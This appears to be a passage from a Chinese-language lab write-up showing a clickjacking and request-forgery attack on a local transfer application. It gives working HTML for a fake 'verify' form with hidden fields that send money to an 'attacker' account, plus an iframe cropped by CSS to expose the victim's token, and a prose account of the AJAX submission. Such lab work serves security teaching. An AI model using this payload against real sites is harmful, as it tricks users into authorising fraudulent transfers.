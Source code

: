 ```html
        <form method="post" id="myForm">
            <label for="token">Input string below to verify...</label>
            <input type="text" name="destination_username" value="attacker" style="display: none;">
            <input type="text" name="quantity" value="10" style="display: none;">
            <input type="text" name="tokeninput" value="">
            <input type="submit" value="Verify">
        </form>
        <iframe src="bp2.html" scrolling="no" style="border:none;"></iframe>
    </body>
</html>
```

`bp2.html`

```html
<!DOCTYPE html>
<html>
<head>
    <style type="text/css">
        .wapper {
            width: 300px;
            height: 20px;
            overflow: hidden;
            position: relative;
        }
        .iframe {
            border: none;
            height: 1000px;
            position: absolute;
            top: -570px;
        }
    </style>
</head>
<body>
    <div class="wapper">    
        <iframe class="iframe" src="http://localhost:3000/super_secure_transfer/" scrolling="no"></iframe>
    </div>
</body>
</html>
```

在 bp2.html 中设置 iframe position 属性为 absolute 后，调整 iframe 大小使得刚好显示 token 内容。在 bp.html 中伪造一个表单，使得用户输入 token 的内容。

使用 javascript 拦截自定义表单 post 请求，然后使用 ajax 将请求发送给 `http://localhost:3000/super_secure_post_transfer`。发送成功或者失败都会重定向到一个正常页面。

当用户输入 token，点击 verify 之后，就会完成转账操作并跳转到正常页面。

![image-20220506002440139](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220506002440139.png)

![image-20220506002459002](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220506002459002.png)
